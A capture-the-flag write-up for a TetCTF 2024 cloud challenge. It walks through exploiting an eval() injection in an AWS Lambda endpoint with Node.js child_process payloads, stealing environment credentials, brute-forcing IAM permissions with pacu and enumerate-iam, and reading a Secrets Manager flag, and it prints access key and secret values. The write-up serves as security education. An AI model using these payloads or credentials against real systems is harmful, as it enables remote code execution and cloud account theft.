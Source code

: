 # Challenge link
URL:      [https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome to TetCTF!"](https://huk5xbypcc.execute-api.ap-southeast-2.amazonaws.com/dev/vulnerable?vulnerable="Welcome_to_TetCTF!") 

(maybe the server was shut down)

# Challenge description
Let’s see what you can do with this vulnerable API GW endpoint.
Note: AWS Account is not needed for this challenge

# Challenge source file
Blackbox

# Catergory
Web/cloud service exploitation

# Difficulty
Hard

# Author
Chi Tran (Twitter: @imspicynoodles) (Discord: iam.chi)

# Approach
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/7da8df0c-c3ba-491b-8cc4-a4840e944830)

- There is a parameter on the URL. I tried to modify it:
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/b1d4e2c7-166a-4264-b4d6-e73e1e497257)

- The message is "Evaluated User Input" so I think they used *eval()* in the backend, so we can gain RCE. After a while, I realized that they use Javascript for the backend. This is the payload:
  ```
  process.env
  ```
  Or you can use this to read other things on the server:
  ```
  require('child_process').execSync('env', {encoding: 'UTF-8'}).trim().split('\n')
  ```
  (I switched to Burpsuite for convenient)
  
  ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a18acd23-cb01-450f-9b90-70008e157fc7)

- The challenge is hosted on AWS service and I see some interesting thing like AWS_ACCESS_KEY_ID, AWS_SECRET_ACCESS_KEY so I search for it on google. There are a few post I found it interesting:
  
  [https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167](https://blog.appsecco.com/hacking-aws-lambda-for-security-fun-and-profit-c140426b6167)
  
  [https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja](https://www.linkedin.com/pulse/exploiting-aws-lambda-gain-rce-access-s3-buckets-arav-budhiraja)
  
  [AWS exploit cheatsheet](https://github.com/pop3ret/AWSome-Pentesting/blob/main/AWSome-Pentesting-Cheatsheet.md)
  
- I knew that this website use AWS lambda service. Usually, when deployed, AWS cloud saves information about itself in the Linux server as environment variables, including sensitive things like sessionID, secret key, ... I had all of them, the next mission is exploiting the AWS cloud.

# Problem-solving
  ## Find a priviledged account 
  - I install AWS CLI on my WSL and use those three token:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/14c77bfa-8d67-4954-9103-23b71b7672cb)

  - Set environment variables (AWS cloud service's requirement to access an user account):
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d11e24ef-5239-4656-88e4-ee895d46668f)

  - Now it's time to check if the account is set. I use this AWS command:
    ```
    aws sts get-caller-identity
    ```
    (It has the same meaning as *whoami* in Linux)
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/025f4254-4efd-40ca-8fe5-6d5a3d012bf6)

  - AWS S3 is a service that used to storing data of the cloud server. After reading the cheatsheet (link above), I tried a s3 command:
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/c714633d-7834-41b1-9652-5f22fd296434)

  - Maybe this account has restricted priviledge. Since AWS has so many service and command, I used this tool to bruteforce account's priviledge:
    
    [Source code Github](https://github.com/RhinoSecurityLabs/pacu)
    
    Command to install:
    ```
    pip3 install -U pacu
    ```

  - Use pacu to bruteforce priviledge:
    
    Create new attack session:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/a30441b5-07e7-4271-9017-377b2787fd6d)

    Use *ls* to list all the command of the tool. In this scenario, I use *iam__bruteforce_permissions*:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/e82956b2-b214-44de-8c55-6faab1d2e1c2)

    Type Y to accept, and wait for it.

  - After a while, the bruteforce result tell me that this account has very stricted priviledge and cannot do anything more:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d1067780-a9f7-4072-b534-27db5a3aebb5)
    (some not interesting commands)

  - To ensure that, I also use another tool:
    
    [enumerate-iam](https://github.com/andresriancho/enumerate-iam)

  - And it didn't find anything else:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/d3cc96b9-d135-49b2-bbd8-99101a30a296)

  - This is very tricky, so I have to read again all the documents and information I've retrieved. But there is a thing:
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/565ce8d0-4897-4797-9eb4-1966222361d4)

  - Other writeups do not have this token. This is so weird, so I asked a cloud engineer about this. He said that the token I used is for execution role but it doesn't have any priviledge. He also said that AWS lambda can ignore that token and use the pre-defined token saved in the environment variable. So, that means the ENV_ tokens above are the correct tokens.

  - Re-setup those token:
    ```
    unset AWS_SESSION_TOKEN (this session token is for execution role that do not have any priviledge, so I have to remove it)
    export AWS_ACCESS_KEY_ID='AKIAX473H4JB76WRTYPI' (replace with the value of ENV_ACCESS_KEY token)
    export AWS_SECRET_ACCESS_KEY='f6N48oKwKNkmS6xVJ8ZYOOj0FB/zLb/QfXCWWqyX' (replace with the value of ENV_SECRET_ACCESS_KEY token)
    ```
  - Then re run this command to check if the setup is done:
    ```
    aws sts get-caller-identity
    ```
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/0d4505b5-b6c0-4fd8-b272-e738410dc517)

  - HURRAYYYYYYY!

  ## Bruteforce priviledge
  - After gaining access to secret-user, I should check what command can this user do. I use the enumerate-iam tool for this purpose because it's faster:
    ```
    python3 enumerate-iam.py --access-key AKIAX473H4JB76WRTYPI --secret-key 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 --region ap-southeast-2
    ```
    You can find region in AWS leaked information above.

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/173c95e2-a98e-47d5-9328-8d8a9beaa273)

  - The result give me a suspicious command: *secretsmanager.list_secrets()*. I asked chatGPT about it and get the correct syntax:
    ```
    aws secretsmanager list-secrets
    ```
    
    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/4d29e816-2502-4bc1-a4ad-8222d5013f2c)

  - Now I use this command to read the secret:
    ```
    aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:ap-southeast-2:543303393859:secret:prod/TetCTF/Flag-gnvT27
    ```

    ![image](https://github.com/NoSpaceAvailable/TetCTF2024/assets/143888307/193788ae-1db1-407f-9b41-1a374fb5df9f)

  - Flag: TetCTF{B0unTy_$$$-50_for_B3ginNeR_2a3287f970cd8837b91f4f7472c5541a}
